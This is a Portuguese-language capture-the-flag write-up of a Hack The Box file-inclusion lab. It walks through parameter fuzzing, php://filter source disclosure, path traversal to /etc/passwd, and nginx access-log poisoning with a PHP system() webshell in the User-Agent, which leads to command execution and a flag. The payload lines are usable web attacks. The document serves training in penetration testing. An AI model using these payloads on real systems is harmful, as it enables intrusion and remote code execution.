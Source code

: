 ## 1. Exploração:
Ao entrar no site a primeira coisa que fiz, foi olhar as páginas onde um usuário comum 
poderia acessar, notei que a aba da direita levava até 3 páginas com o diretório 
"index.php?page=.." que costuma ser vulnerável a alguns tipos de ataques, mas além disso, 
a página de contatos tinha algo muito interessante que eu não consegui aproveitar.
Ao digitar sua mensagem na parte do chat, ela iria diretamente para a URL, por 
exemplo ao digitar a mensagem “Bom dia amigos”, retornaríamos ao site principal com a 
seguinte URL: “http://159.65.52.96:31749/index.php?message=Bom+dia+amigos#”
Já tendo duas oportunidades de “exploitar” o site, decidi ir para uma abordagem 
mais agressiva.

## 2. Contatos:
Vendo essa página dos contatos, tentei utilizar um php wrapper, para injetar um código 
malicioso: 
“http://159.65.52.96:31749/index.php?message=
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&
cmd=id”
Infelizmente isso acabou não levando a nada, mas é algo que vale a pena investigar, 
já que pode ser uma outra vulnerabilidade não explorada.

## 3. Primeiros Fuzzes:
Voltando para as páginas “index.php?page=..”, decidi realizar 2 tipos de fuzz, o primeiro 
"index.php?page=FUZZ" utilizando LFI-Jhaddix.txt, não consegui nada de relevante, então 
no segundo "index.php?FUZZ=value" utilizando burp-parameter-names.txt, novamente não 
consegui nada, então deveria pensar em uma nova abordagem.

## 4. Cookies e Wrappers:
Já que minha primeira tentativa de Fuzz não havia dado certo, comecei a procurar novas 
possibilidades, e uma delas seria e modificar os cookies para envenenar os logs, para minha 
decepção não consegui encontrar nenhum cookie vulnerável, por fim tentei verificar se a 
opção "allow_url_include" estava ativada ou desativada, infelizmente o site me devolveu 
um "Invalid Input Detected", logo ou era uma versão mais antiga de php, ou poderia ser o 
Nginx ao invés de Apache2, então tentei usando o mesmo e outras versões antigas do php, 
até a 7.0, infelizmente também não deu em nada.

## 5. Imagens:
Um pouco sem ideias, decidi investigar as imagens do site, para ver se a pasta onde 
estavam localizadas tinha alguma vulnerabilidade, então inspecionei o site, e consegui o 
link para a imagem do grande barco do site, ela dava para uma pasta /images/ que estava 
infelizmente protegida, então não consegui acessá-la.

## 6. Voltando ao Fuzz:
Nesse momento meu arsenal intelectual estava no seu limite, e voltei para o curso do HTB, 
para ver se havia algo que eu tinha deixado passar, então foi quando me lembrei do php 
filter.
Nesse caso, precisaria utilizar outro Fuzz para detectar as entidades .php do site, o 
comando usado foi o seguinte:
http://159.65.52.96:31749/FUZZ.php
Vale ressaltar que a wordlist utilizada foi a small.txt do próprio Kali Linux.
Finalmente tive alguns resultados interessantes, as seguintes palavras bateram:
About Contact Error Index Main
Decidi então utilizar do filtro php para ver se descobria mais coisas com as 5. com o 
seguinte comando:
http://159.65.52.96:31749/index.php?page=index.php
Para minha felicidade, não deu input inválido, então seria possível ir mais a fundo 
com o próximo comando: 
http://159.65.52.96:31749/index.php?page=php://filter/read=convert.base64-
encode/resource=index
A ideia desse comando é pegar o código convertido na base 64, depois usaremos um 
“echo código | base64 –d" para transformar o código em uma página, tentei em todos 
deixando, para meu azar, o index por último. É nele que eu encontrei uma linha muito 
interessante:
(// echo '<li><a href="ilf_admin/index.php">Admin</a></li>';)

## 7. Entrando na sala do admin:
Com a linha de código descoberta, coloquei ela no site, no lugar do index da seguinte 
maneira:
http://144.126.206.23:32175/ilf_admin/index.php
Nota, vale ressaltar que a partir de agora estou com outro IP já que a máquina havia 
“despwanada” então tive de resetá-la.
Entrei no site e meus níveis de dopamina subiram muito, está aqui uma vulnerabilidade 
bem perigosa para o site, eu poderia ver o chat entre empregados, log de serviço e log do 
sistema.
De qualquer forma, fui analisar o conteúdo dos logs, no chat havia mensagens, antes de 
cada uma delas havia 2 nomes, um deles que terminava em números, e outro que termina 
com números, mas entre colchetes, seriam eles IDs? Ou até mesmo senhas Hard coded? 
Coloquei isso como uma possibilidade e parti para os outros logs.
Nos outros logs havia muitos links e coisas interessantes, mas decidi não as investigar por 
enquanto, então olhei novamente a estrutura do site:
http://144.126.206.23:32175/ilf_admin/index.php?log=chat.log
Isso mesmo, mais fuzz.

## 8. Fuzz novamente:
Comecei com o primeiro fuzz da seguinte forma:
http://144.126.206.23:32175/ilf_admin/index.php?FUZZ=value
Nesse caso, utilizei o burp-parameter-names.txt, para tentar encontrar novos 
parâmetros que pudessem ser atacados, ou que me dessem uma nova pista, infelizmente 
não descobri nenhum diretório novo, apenas o próprio log.
Então vamos para outro fuzz, dessa vez com o LFI-Jhaddix.txt da seguinte maneira:
http://144.126.206.23:32175/ilf_admin/index.php?log=FUZZ
Havia muitas respostas com o tamanho 2046, então utilizei do –fs 2046 para filtrar 
essas respostas com esse tamanho específico, por fim encontrei coisas mais sólidas, vários 
links com o formato similar a esse:
../../../../../../../etc/passwd
Sem pensar 2 vezes, nem mesmo olhar o resto dos resultados que bateram (estava 
muito animado) fui para o seguinte site:
http://144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../etc/passwd
E lá encontrei uma página maravilhosa, e pensei que seria o fim, mas não havia 
nenhum sinal de flag lá, mas tirei informações importantes como que o servidor não 
utilizava do Apache2, mas sim do Nginx, informação importante para buscar paramêtros 
novos, além disso havia um:
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
Talvez uma dica caso fosse necessário entrar no site com ssh, utilizei também um 
inspect na página para ver se encontrava algo notável, mas encontrei outro beco sem saída, 
voltei e fiz o Fuzz novamente, para ver se não tinha deixado passar outro diretório, e 
encontrei um:
../../../../../../../../../../../../etc/hosts
Nesse diretório havia informações de ips, e outros elementos que estão fora de meu 
conhecimento por enquanto, sem mais pistas voltei ao HTB para ver se podia ter perdido 
algo novamente.

## 9. Burp e Log Poison:
Era a última esperança, o único que não havia tentado ainda, então seguindo os passos do 
HTB, nota-se que há um arquivo access.log com diretórios diferentes, dependendo se é 
apache ou Nginx, bom, graças a página que acessamos antes, sabemos que é Nginx, então 
utilizando o seguinte diretório chegamos à página dos logs:
144.126.206.23:32175/ilf_admin/index.php?log=var/log/nginx/access.log
Não deu certo, então, tive de colocar vários “../” até que encontrasse o diretório correto:
144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
Finalmente dentro do access.log, abri o BurpSuite, liguei o intercept e dei refresh na página, 
depois disso, mandei o “proxy” para “Repeater”, e la mudei o User-Agent pra “Veneno” e 
cliquei em send.

## 10. A flag:
Ao checar no response, dava pra ver o “Veneno”, então era possível colocar um script 
malicioso ali e tentar navegar as pastas, logo, no lugar de User-Agent coloquei o seguinte:
<?php system($_GET['cmd']); ?>
E no get, coloquei um comando, &cmd=id (.../access.log&cmd=id), para minha felicidade 
consegui uma resposta boa:
uid=65534(nobody) gid=65534(nobody)
Logo era só uma questão de navegar para encontrar a flag, no exercício fala que ela está na 
pasta root, então fazemos um ls / no lugar do id, dessa maneira nos é revelado o que está 
na pasta root, um txt muito interessante: flag_dacc60f2348d.txt.
Por fim, fazemos agora um cat /flag_dacc60f2348d.txt e conseguimos seu conteúdo, que é 
a flag: a9a892dbc9faf9a014f58e007721835e
11. Conclusões:
O sistema invadido tem várias vulnerabilidades, mas com meu conhecimento consegui 
explorar poucas delas, vale notar a questão do chat dos Contatos, além dos vários números 
e nomes dos usuários que aparecem no Chat Log, uma sugestão clara que poderá remediar 
o problema, seria a necessidade de colocar uma senha para entrar em qualquer link que 
tenha ilf_admin/

